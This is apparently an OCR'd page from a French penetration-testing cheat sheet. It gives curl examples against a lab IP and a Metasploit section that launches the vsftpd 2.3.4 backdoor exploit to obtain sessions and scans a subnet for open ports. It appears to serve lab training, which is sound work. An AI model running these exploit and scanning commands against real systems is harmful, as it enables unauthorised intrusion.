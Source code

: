```bash
# Requête GET simple
curl http://192.168.100.20

# Requête POST avec données
curl -X POST -d "username=admin&password=test" http://192.168.100.20/login

# Voir les en-têtes HTTP
curl -I http://192.168.100.20

# Suivre les redirections
curl -L http://192.168.100.20

# Avec authentification
curl -u username:password http://192.168.100.20

# Envoyer un fichier
curl -F "file=@/path/to/file" http://192.168.100.20/upload
```

---

## 🔫 Exploitation

### Metasploit Framework

```bash
# Lancer Metasploit
msfconsole

# Rechercher un exploit
search vsftpd
search type:exploit platform:linux

# Utiliser un exploit
use exploit/unix/ftp/vsftpd_234_backdoor

# Configurer les options
set RHOST 192.168.100.20
set LHOST 192.168.100.10
show options

# Lancer l'exploitation
exploit
# ou
run

# Mettre en arrière-plan une session
background

# Lister les sessions
sessions -l

# Interagir avec une session
sessions -i 1

# Scanner avec Metasploit
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.100.0/24
run
```
